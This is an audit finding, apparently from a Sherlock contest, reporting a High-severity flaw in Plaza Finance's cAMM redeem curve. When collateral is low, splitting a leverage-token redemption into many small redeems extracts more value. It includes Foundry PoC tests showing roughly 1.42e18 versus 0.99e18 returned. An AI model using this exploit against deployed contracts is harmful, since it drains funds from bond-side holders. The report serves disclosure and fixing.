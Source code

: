 Winning Rosewood Opossum

High

# Broken cAMM curve when `Collateral Level ≤ 1.2`

### Summary

The cAMM curve performs a conditional redeem logic when the `Collateral Level ≤ 1.2`. This will result in Leverage traders being exposed to less risk and even profit in some situations.

### Root Cause

Using fixed multipliers is not viable when collateralLevel <= COLLATERAL_THRESHOLD.
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/14a962c52a8f4731bbe4655a2f6d0d85e144c7c2/plaza-evm/src/Pool.sol#L512
With the current logic if we have 5 lev tokens and tvl of 100eth the following will be true:
5 lev tokens will be allocated 20 eth.=>1lev token = 4eth
However after withdrawing 1 lev token at 4 eth the state will change the following way:
4lev tokens will be 20%*96 = 19.2 => 1 lev token = 4.8 eth
This mechanism will increase the lev token's value each time a redeem is made.
This will mean that the last token will still be 20%, as a result the users will be able to manipulate the redeem amounts.
Refer to the PoC to see the attack with real numbers.
### Internal Pre-conditions

N/A

### External Pre-conditions

1. In the PoC below the price of eth will drop 50% putting the collateral level from collateralLevel >= COLLATERAL_THRESHOLD to collateralLevel < COLLATERAL_THRESHOLD.

### Attack Path

In the PoC below we can see that at first the user will withdraw the whole amount at once while the second time they will split their withdraw on 100 smaller amounts.

### Impact

Users will be able to manipulate withdraws and extract more value because of the broken curve logic. This will also result in loss for the bond side.

### PoC

The following PoC can be run into the Pool.t.sol
```solidity
 function testCurveLogicLeverageSide() public {
        vm.startPrank(governance);
        Token rToken = Token(params.reserveToken);
        rToken.mint(governance, 600e18);
        rToken.approve(address(poolFactory), 600e18);
        setEthPrice(3000e8); //set the price to $300
        // Create salt to create the pool at a different address
        string memory salt = "tester";

        // Create pool and approve deposit amount
        Pool _pool = Pool(poolFactory.createPool(params, 6e18, 150e18, 1e18, "", salt, "", "", false));
        setEthPrice(3000e8);
        address bob = address(0x01);
        rToken.mint(bob, 2e18);
        vm.stopPrank();
        vm.startPrank(bob);

        rToken.approve(address(_pool), 2e18);
        _pool.create(Pool.TokenType.LEVERAGE, 2e18, 0);

        setEthPrice(1500e8); //50% price drop
        uint256 bobBalanceLeverage = LeverageToken(_pool.lToken()).balanceOf(bob);
       //@audit by splitting withdraws
        uint256 sumRedeemed = 0;
        for (uint256 i = 0; i < 1; i++) {
            sumRedeemed += _pool.redeem(Pool.TokenType.LEVERAGE, bobBalanceLeverage / 1, 0);
        }
        console.log(sumRedeemed);
    }

```
This will output the following:
```bash
[PASS] testCurveLogicLeverageSide() (gas: 1972764)
Logs:
  999999999999999999
```

Now splitting the withdraw into multiple smaller amounts:
```solidity
  function testCurveLogicLeverageSide() public {
        vm.startPrank(governance);
        Token rToken = Token(params.reserveToken);
        rToken.mint(governance, 600e18);
        rToken.approve(address(poolFactory), 600e18);
        setEthPrice(3000e8); //set the price to $300
        // Create salt to create the pool at a different address
        string memory salt = "tester";

        // Create pool and approve deposit amount
        Pool _pool = Pool(poolFactory.createPool(params, 6e18, 150e18, 1e18, "", salt, "", "", false));
        setEthPrice(3000e8);
        address bob = address(0x01);
        rToken.mint(bob, 2e18);
        vm.stopPrank();
        vm.startPrank(bob);

        rToken.approve(address(_pool), 2e18);
        _pool.create(Pool.TokenType.LEVERAGE, 2e18, 0);

        setEthPrice(1500e8); //50% price drop
        uint256 bobBalanceLeverage = LeverageToken(_pool.lToken()).balanceOf(bob);
       //@audit by splitting withdraws
        uint256 sumRedeemed = 0;
        for (uint256 i = 0; i < 100; i++) {
            sumRedeemed += _pool.redeem(Pool.TokenType.LEVERAGE, bobBalanceLeverage / 100, 0);
        }
        console.log(sumRedeemed);
    }
```

The output will be the following:
```bash
Logs:
  1419523852944444339
```
As we can see the by splitting the withdraw the user made 1.4e18 instead of 0.99e18.


### Mitigation

_No response_